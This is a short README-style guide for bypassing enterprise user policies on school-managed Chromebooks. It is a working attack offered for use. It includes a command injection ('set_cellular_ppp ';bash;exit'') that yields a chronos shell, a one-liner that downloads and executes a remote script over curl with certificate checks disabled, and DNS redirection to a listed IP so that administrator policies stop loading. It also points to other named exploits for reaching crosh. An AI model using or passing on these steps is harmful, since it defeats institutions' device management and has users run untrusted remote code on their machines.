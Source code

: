 # UserPolicy Bypass

finally (credit to @SprinkzMC for tipping me off about the flag)

You need: The ability to downgrade to a version below 102 A way to access crosh. If it's blocked via extension, use LTBEEF. If it's blocked by user policy, you must use a combination of Incognito Exploit (v81) and Crosh Bypass (Daybreak) A router or hotspot capable of either blocking websites via parental control or setting a custom DNS (129.213.58.41)

Steps: Downgrade to a version below 102 YOU HAVE TO DOWNGRADE! IF YOU DON'T DOWNGRADE AND ASK FOR HELP WE WILL LAUGH AT YOU!!!!!!!!!!!!!! Open crosh (ctrl+alt+t) Elevate to a chronos shell by typing in set_cellular_ppp ';bash;exit' Run the command sh <(curl -k https://coolelectronics.me/bypass.sh) & disown Remove your school account, log out or just clear it in any way you can. The method varies depending on how device policy is set up In your router settings, set the dns to 129.213.58.41 or block m.google.com. (NOT THE NETWORK DNS ON THE CHROMEBOOK, IT WONT WORK) #deleted-channel or DNS Sinkhole + Hotspot on iOS can be used Log into your school account

It should prompt you about a PIN and google play, and then drop you into an account where everything works as normal but no user policies are set. If you get a "sign in required" error, try steps again

This should enable ARC (playstore) and unblock all policy blocked urls When you connect to a wifi without the custom DNS the policy will reload to normal but some changes will persist, more testing is needed
